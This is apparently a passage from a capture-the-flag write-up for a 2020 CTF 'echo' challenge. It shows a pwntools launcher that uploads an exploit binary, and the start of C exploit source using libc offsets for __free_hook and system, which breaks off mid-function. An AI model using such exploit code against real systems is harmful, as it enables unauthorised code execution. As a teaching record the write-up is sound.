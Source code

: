 # Final exploit

Python launch script
```py
from pwn import *

r = remote('echo.2020.ctfcompetition.com', 1337)
f = open('sploit', 'rb').read()
r.sendafter('ELF:', p32(len(f)) + f)
r.interactive()
```

Exploit compiled with `clang -D_GNU_SOURCE -static -O2 sploit.c -o sploit`
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#include <string.h>
#include <arpa/inet.h>

#define OFFSET_HEAP 0x12f50
#define OFFSET_LIBC 0x1ec0d0
#define OFFSET_FREE_HOOK 0x1eeb28
#define OFFSET_SYSTEM 0x55410

#define yield() usleep(1000)

int conn() {
    int sockfd;
    struct sockaddr_in servaddr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd == -1) {
        puts("socket creation failed...");
        exit(0);
    }

    bzero(&servaddr, sizeof(servaddr));

    servaddr.sin_family = AF_INET;
    servaddr.sin_addr.s_addr = inet_addr("127.0.0.1");
    servaddr.sin_port = htons(21337);

    if (connect(sockfd, (const struct sockaddr *) &servaddr, sizeof(servaddr)) != 0) {
        puts("connection with the server failed...");
        exit(0);
    }

    return sockfd;
}

void writeall(int fd, char *buf, size_t len) {
    size_t towrite = len;
    while (towrite) {
        ssize_t written = write(fd, buf, towrite);
        if (written <= 0) {
            puts("write failure");
            exit(0);
        }
        towrite -= written;
    }
```